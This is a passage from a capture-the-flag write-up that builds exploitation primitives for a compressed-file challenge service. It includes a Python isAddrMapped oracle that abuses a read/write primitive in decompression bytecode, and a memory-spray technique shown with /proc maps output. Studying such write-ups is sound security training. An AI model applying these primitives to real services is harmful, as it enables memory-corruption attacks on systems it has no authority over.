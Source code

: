We are given a read what where primitive, so building an isAddressMapped oracle is not hard at all.

My way to do it was to build this bytecode:
* `memcpy(out, targetAddress, 1)`
* `write(b'A')`

If targetAddress is not mapped the child program segfaults on memcpy, giving us a decompressed file filled with null bytes.

If targetAddress is mapped, the decompressed file has a b'\x41' as the second byte.

```py
def isAddrMapped(addr, fileid, filelen=2):
    toup = CompressedFile(filelen)
    
    # addr = OUT_ADDR - off
    off = (OUT_ADDR - addr) & M64
    # memcpy(toup.out, addr, 1)
    toup.memcpy(off, 1)
    # *(toup.out+1) = 0x41
    toup.write(b'\x41')

    uploadFile(toup.content, fileid)
    res = getFile(fileid)
    isMapped = res.content[1] == 0x41
    
    return isMapped
```

## 4.3 Memory Spray primitive

We can completely control the size of the decompressed file, and we get an mmap of that size in [MyController.cpp:62](resources/dist-guess-god/src/src/controller/MyController.cpp#L62). 

In my exploit i used the `isAddrMapped` function, and changed the filelen.

For example, let's try to allocate a contiguous chunk of size = 0x4000000 = 64mb
```py
isAddrMapped(IN_ADDR, 0, 0x4000000)
```

That's the result:
```
root@088ec31b2ce9:/home/ctf/challenge# cat /proc/47/maps
...
7f3450000000-7f3454000000 r--p 00000000 00:af 3                          /challenge/files/0.unkyle
...
```

If you try do it again:
```py
isAddrMapped(IN_ADDR, 0, 0x4000000)
isAddrMapped(IN_ADDR, 0, 0x4000000)
```

That's the result:
```
7f344c000000-7f3450000000 r--p 00000000 00:af 5                          /challenge/files/1.unkyle
7f3450000000-7f3454000000 r--p 00000000 00:af 3                          /challenge/files/0.unkyle
```
